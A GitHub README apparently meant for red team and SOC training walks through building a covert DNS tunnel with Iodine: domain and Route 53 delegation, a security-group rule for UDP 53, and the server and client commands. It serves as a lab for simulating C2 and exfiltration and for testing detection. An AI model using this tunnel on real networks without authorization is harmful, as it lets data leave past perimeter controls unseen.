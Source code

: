 
# Iodine DNS Tunneling (Red Team Training Use Only)

> ⚠️ **For Authorized Red Team / SOC Training Only**  
> This setup is intended strictly for internal cybersecurity education, detection engineering, and red/blue team simulations. It must not be used for unauthorized access, evasion, or malicious behavior. All testing must occur within lab environments or under written authorization.

---

## 🔍 What Is This?

This project demonstrates how to establish a **covert DNS tunnel using [Iodine](https://github.com/yarrick/iodine)**. DNS tunneling allows you to move data between systems even when other outbound channels (e.g., HTTP, SSH) are blocked by perimeter firewalls. 

This is a **realistic attacker TTP (MITRE T1071.004)** and can be used to:
- Simulate exfiltration through egress-filtered networks
- Test SOC/EDR detection rules
- Train blue teams on DNS anomaly response
- Demonstrate full C2 over DNS in highly restricted environments

---

## ⚙️ What You'll Need

- ✅ A registered domain (we use `iodonetesting.com`)
- ✅ AWS Route 53 for DNS management
- ✅ A public-facing Linux server (e.g., AWS EC2) to run Iodine
- ✅ A client machine behind DNS-only egress (or test NATed environments)
- ✅ Debian or Ubuntu (or any Linux distro with Iodine support)

---

## 🏗️ Step-by-Step Setup

### 🔹 Step 1: Register a Domain

Use a registrar like GoDaddy, Namecheap, etc.  
**Example Domain**: `iodonetesting.com`

---

### 🔹 Step 2: Delegate Domain to Route 53

1. Open AWS Console → **Route 53**
2. Create a **Hosted Zone** for `iodonetesting.com`
3. Copy the 4 AWS nameservers listed under `NS`
4. Update your registrar (GoDaddy, etc.) to use those nameservers

Wait for DNS propagation (use `dig` to check):
```bash
dig NS iodonetesting.com
```

---

### 🔹 Step 3: Create a Subdomain for DNS Tunneling

1. In Route 53, create a **second public hosted zone** for:
   ```
   tunnel.iodonetesting.com
   ```
2. Copy its NS values (e.g., `ns-xxx.awsdns-xx.com.`)

3. Go back to the **main zone (`iodonetesting.com`)**
   - Create an `NS` record:
     - **Name**: `tunnel`
     - **Type**: `NS`
     - **Value**: paste the 4 NS records from the `tunnel` zone

---

### 🔹 Step 4: Point Your Server Hostname

1. In the `tunnel.iodonetesting.com` hosted zone, create an A record:

   - **Name**: `iodine`
   - **Type**: `A`
   - **Value**: your server’s public IP

2. Confirm DNS resolution from client machine:

```bash
dig iodine.tunnel.iodonetesting.com @1.1.1.1
```

---

### 🔹 Step 4.5: Open Port 53 UDP in AWS Security Group

In the AWS Console:

1. Go to **EC2 → Instances → Sepsis**
2. Open the attached **Security Group**
3. Under **Inbound rules**, click **“Edit inbound rules”**
4. Add:
   - **Type**: `Custom UDP`
   - **Protocol**: `UDP`
   - **Port range**: `53`
   - **Source**: `your public IP/32`
   - **Description**: `IODINE_TUNNEL`

✅ Iodine only requires **UDP port 53**.  
🚫 You do **not** need to open TCP 53.

---

### 🔹 Step 5: Install Iodine

**On the server (e.g., Sepsis):**
```bash
sudo apt update
sudo apt install iodine -y

sudo iodined -f -P hunter2 10.0.0.1 tunnel.iodonetesting.com
```

**On the client:**
```bash
sudo apt update
sudo apt install iodine -y

sudo iodine -f -P hunter2 -T A -r iodine.tunnel.iodonetesting.com tunnel.iodonetesting.com
```

---

## ✅ Tunnel should now be live.

You should see the following:
- `dns0` interface assigned `10.0.0.2`
- Server tunnel IP: `10.0.0.1`
- Codec negotiation completed (Base128)
- Connection setup complete

---

Next steps (e.g., ping, SSH, exfil) will be added in future updates.
